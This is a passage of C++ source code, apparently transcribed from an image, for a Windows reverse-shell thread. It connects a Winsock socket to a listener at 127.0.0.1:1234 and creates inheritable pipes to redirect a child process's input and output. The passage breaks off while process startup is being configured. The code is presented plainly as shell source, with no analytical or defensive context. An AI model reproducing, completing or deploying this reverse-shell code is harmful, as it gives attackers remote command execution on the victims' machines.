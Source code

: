 ```cpp

// Main shell thread
DWORD WINAPI ShellThread(LPVOID lpParameter) {
    WSADATA wsaData;
    SOCKET sock = INVALID_SOCKET;
    struct sockaddr_in serverAddr;
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;
    SECURITY_ATTRIBUTES sa;

    HANDLE hChildStdinRd = NULL, hChildStdinWr = NULL;
    HANDLE hChildStdoutRd = NULL, hChildStdoutWr = NULL;

    // Initialize Winsock
    if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
        return 1;
    }

    // Create socket
    sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sock == INVALID_SOCKET) {
        WSACleanup();
        return 1;
    }

    // Prepare server address
    serverAddr.sin_family = AF_INET;
    serverAddr.sin_port = htons(1234);
    inet_pton(AF_INET, "127.0.0.1", &serverAddr.sin_addr);

    // Connect to listener
    if (connect(sock, (struct sockaddr*)&serverAddr, sizeof(serverAddr))) {
        closesocket(sock);
        WSACleanup();
        return 1;
    }

    // Create pipes for child process
    sa.nLength = sizeof(sa);
        sa.lpSecurityDescriptor = NULL;
        sa.bInheritHandle = TRUE;

        // Create pipe for child's stdin (input to the child)
        if (!CreatePipe(&hChildStdinRd, &hChildStdinWr, &sa, 0)) {
            closesocket(sock);
            WSACleanup();
            return 1;
        }

    // Create pipe for child's stdout (output from the child)
    if (!CreatePipe(&hChildStdoutRd, &hChildStdoutWr, &sa, 0)) {
        CloseHandle(hChildStdinRd);
        CloseHandle(hChildStdinWr);
        closesocket(sock);
        WSACleanup();
        return 1;
    }

    // Set up process startup info
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESTDHANDLES;
    si.hStdInput = hChildStdinRd;
```